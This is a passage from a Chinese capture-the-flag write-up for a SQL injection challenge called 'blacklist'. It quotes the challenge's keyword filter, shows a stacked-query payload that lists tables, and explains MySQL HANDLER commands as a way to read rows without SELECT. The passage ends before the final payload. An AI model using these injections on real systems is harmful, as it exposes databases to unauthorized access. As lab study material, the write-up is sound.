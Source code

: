 ### <a class="reference-link" name="blacklist"></a>blacklist

打开题目发现和强网杯的一道题目特别相似。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2020/02/22/3Q83gx.png)

但是这个题目的过滤更加严谨：<br>
将上次强网杯那道题的思路都给过滤了。。

```
return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|./i",$inject);

```

我们可以查到表名 payload:`-1';show tables;`：

[![](https://p0.ssl.qhimg.com/t01011fe518896c692c.png)](https://p0.ssl.qhimg.com/t01011fe518896c692c.png)

我们可以发现`flag`所在的表

通过查阅资料，发现了一个有趣的东西 `handler` [Mysql查询语句-handler](https://blog.csdn.net/JesseYoung/article/details/40785137)

`handler`的使用方法：

```
mysql&gt; handler user open;
Query OK, 0 rows affected (0.00 sec)

mysql&gt; handler user read first;
+----+-------+-------+
| id | name  | pass  |
+----+-------+-------+
|  1 | admin | admin |
+----+-------+-------+
1 row in set (0.00 sec)

mysql&gt; handler user read next;
+----+------+------+
| id | name | pass |
+----+------+------+
|  2 | root | root |
+----+------+------+
1 row in set (0.00 sec)

mysql&gt; handler user close;
Query OK, 0 rows affected (0.00 sec)
```

我们可以如法炮制一下。

得到payload:
